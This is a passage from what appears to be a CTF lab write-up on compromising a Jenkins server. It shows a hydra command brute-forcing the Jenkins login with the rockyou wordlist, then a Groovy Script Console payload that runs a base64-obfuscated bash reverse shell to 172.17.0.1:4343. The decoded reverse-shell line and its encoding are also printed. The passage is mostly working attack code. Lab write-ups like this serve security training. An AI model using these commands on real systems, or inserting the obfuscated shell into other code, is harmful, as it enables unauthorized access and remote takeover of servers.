 <br /><br />

**Bruteforce with hydra**

```bash
hydra localhost -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -s 8484 -V -l admin -P /usr/share/wordlists/rockyou.txt
```



<br /><br />

**Log into jenkins**

Now we can get a reverse shell.

Go to Manage Jenkins –>Script Console , write a Groovy reverse shell and  start a netcat listener

```bash
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQzNDMgMD4mMScK}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

The above code executes a bash reverse shell command encoded in base64

```bash
bash -c 'bash -i >& /dev/tcp/172.17.0.1/4343 0>&1'
```

<br />

```bash
root@ip-10-10-228-42:~# echo "bash -c 'bash -i >& /dev/tcp/172.17.0.1/4343 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQzNDMgMD4mMScK
```

<br />

![](/assets/img/internal/16.png)

